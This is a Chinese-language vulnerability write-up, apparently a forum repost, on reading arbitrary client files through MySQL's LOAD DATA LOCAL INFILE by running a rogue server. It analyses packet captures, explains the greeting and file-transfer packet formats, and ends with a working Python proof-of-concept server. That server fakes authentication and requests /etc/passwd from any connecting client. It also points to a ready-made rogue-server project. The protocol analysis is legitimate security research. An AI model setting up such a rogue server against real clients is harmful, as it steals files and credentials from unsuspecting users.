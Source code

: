 # MySQL LOAD DATA 读取客户端任意文

> 原文：[https://www.zhihuifly.com/t/topic/3036](https://www.zhihuifly.com/t/topic/3036)

# MySQL LOAD DATA 读取客户端任意文

## 一、漏洞简介

### LOAD DATA INFILE

mysql的LOAD DATA INFILE语句主要用于读取一个文件的内容并且存入一个表中。通常有两种用法，分别是：

```
load data infile "/etc/passwd" into table TestTable fields terminated by '分隔符';
load data local infile "/etc/passwd" into table TestTable fields terminated by '分隔符'; 
```

第一个语句是读取服务器上的/etc/passwd文件并存入TestTable表中，第二个语句是读取客户端本地的/etc/passwd文件并存入TestTable表中。我们要利用的是LOAD DATA LOCAL INFILE。
官方文档中也提出了这个问题（PS：Google翻译的不是很准确）

![image](img/5bdfa0c773b171f6844667799fc97f70.png)

## 二、漏洞影响

## 三、复现过程

### 分析数据包

测试环境：
MacOS 10.14
Mysql 5.7.21

使用tcpdump抓取3306端口的数据包

![image](img/0a6f9dd8b1cf14711649c5b5c0aeab92.png)

#### 1.服务器向客户端发送greeting问候包，包含服务端banner信息

![image](img/3a57ee6de6e1d96d256ec4904bbf0b1c.png)

#### 2.客户端发送登陆请求包，包含用户名密码，以及含有LOAD DATA LOCAL选项的客户端banner信息。

![image](img/8a7a74b45472dd30b8e7e4fdc24fc8b8.png)

#### 3.然后是客户端初始化的一些查询，比如select database(); select @@version_comment;

![image](img/b072cf8d88eb833705a0bc68d65b8f7a.png)

#### 4.找到我们执行的LOAD DATA INFILE数据包，第一个包看起来比较正常，是客户端发起的Request Que

![image](img/b072cf8d88eb833705a0bc68d65b8f7a.png)

#### 5.但是紧接着服务器返回了一个包含刚才所要LOAD DATA INFILE的文件名/Users/smi1e/Desktop/test.txt的数据包。

![image](img/5e2ba220df1ff2c54f7f5827e992b51b.png)

#### 6.然后客户端向服务端发送了/Users/smi1e/Desktop/test.txt文件的内容：

![image](img/3d8a2bc13f85bf9b19c0f43a0c505f19.png)

如果我们在客户端发送查询之后，返回一个Response TABULAR数据包，即服务端向客户端发送了文件名的数据包，如果我们把这个文件名设置成我们想要读取的文件，那么我们就可以读取客户端的任意文件了。正如官方文档所写的 In theory, a patched server could be built that would tell the client program to transfer a file of the server's choosing rather than the file named by the client in the [LOAD DATA](https://dev.mysql.com/doc/refman/8.0/en/load-data.html "13.2.7 LOAD DATA Syntax") statement.
也就是说想要读取哪个文件是服务端说了算，跟客户端所request的文件名没有关系。

最重要的是伪造的服务端可以在任何时候回复一个file-transfer 请求，不一定非要是在客户端发送LOAD DATA LOCAL数据包的时候。
不过如果想要利用此特性，客户端必须具有CLIENT_LOCAL_FILES即(Can use LOAD DATA LOCAL)属性。如果没有的话，就要在连接mysql的时候加上--enable-local-infile。

### 搭建MySQL服务端

主要分为

*   向 MySQL Client 发送Server Greeting
*   等待 Client 端发送一个Query Package
*   回复一个file transfer请求

我们需要知道如何构造File Transfer和Server Greeting数据包，这些包的格式都可以在 MySQL 的官方文档上找到。

File Transfer数据包格式：Protocol::LOCAL_INFILE_Request

并且我们需要等待一个来自 Client 的查询请求，才能回复这个读文件的请求。不过我们在上面看到客户端在连接成功后会自动的做一些初始化的查询。

![image](img/8c4b7d42e26d890890a2ff513b114522.png)

官方也给了exmaple

```
0c 00 00 01 fb 2f 65 74    63 2f 70 61 73 73 77 64    ...../etc/passwd 
```

数据包的内容其实是从\xfb开始的，这个字节代表包的类型，后面紧跟要读取的文件名。前面的0x0c是数据包的长度（从 \xfb 开始计算），长度后面的三个字节\x00\x00\x01是数据包的序号。

![image](img/fe7561deac6e8fd75546403ddbae3100.png)

Greeting数据包格式：官方文档，如果不会构造可以直接拷贝抓到的数据包然后改一下长度、文件名之类的。

这里直接拷贝大佬归纳的格式。

```
'\x0a',  # Protocol
'6.6.6-lightless_Mysql_Server' + '\0',  # Version
'\x36\x00\x00\x00',  # Thread ID
'ABCDABCD' + '\0',  # Salt
'\xff\xf7',  # Capabilities, CLOSE SSL HERE!
'\x08',  # Collation
'\x02\x00',  # Server Status
"\x0f\x80\x15", 
'\0' * 10,  # Unknown
'ABCDABCD' + '\0',
"mysql_native_password" + "\0" 
```

### poc

来源于https://www.vesiluoma.com/abusing-mysql-clients/的POC，测了一个多小时都没成功，最后发现里面 #3payload写错了，我给改了下。

```
#!/usr/bin/python
#coding: utf8
import socket

# linux :

#filestring = “/etc/passwd”

# windows:

#filestring = “C:\Windows\system32\drivers\etc\hosts”

HOST = “0.0.0.0” # open for eeeeveryone! ![:slight_smile:](img/7d4cf85dfa4bece316c062f606cf7aa5.png ":slight_smile:")

PORT = 3306

BUFFER_SIZE = 1024

#1 Greeting

greeting = “\x5b\x00\x00\x00\x0a\x35\x2e\x36\x2e\x32\x38\x2d\x30\x75\x62\x75\x6e\x74\x75\x30\x2e\x31\x34\x2e\x30\x34\x2e\x31\x00\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00”

#2 Accept all authentications

authok = “\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00”

#3 Payload

#数据包长度

payloadlen = “\x0c”

padding = “\x00\x00”

payload = payloadlen + padding +  “\x01\xfb\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64”

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

s.bind((HOST, PORT))

s.listen(1)

while True:

conn, addr = s.accept()

```
print 'Connection from:', addr
conn.send(greeting)
while True:
    data = conn.recv(BUFFER_SIZE)
    print " ".join("%02x" % ord(i) for i in data)
    conn.send(authok)
    data = conn.recv(BUFFER_SIZE)
    conn.send(payload)
    print "[*] Payload send!"
    data = conn.recv(BUFFER_SIZE)
    if not data: break
    print "Data received:", data
    break
# Don't leave the connection open.
conn.close() 
``` 
```

![image](img/5ae1e445fc021272a5fb91c2234ab18b.png)

ps: 实测 下面这个项目比较好用，上面的poc还需要改长度和内容的16进制值
Github还有一个项目：https://github.com/allyshka/Rogue-MySql-Server

该特性适用于：MySQL Client、 PHP with mysqli、Python with MySQLdb、Python3 with mysqlclient、Java with JDBC Driver等。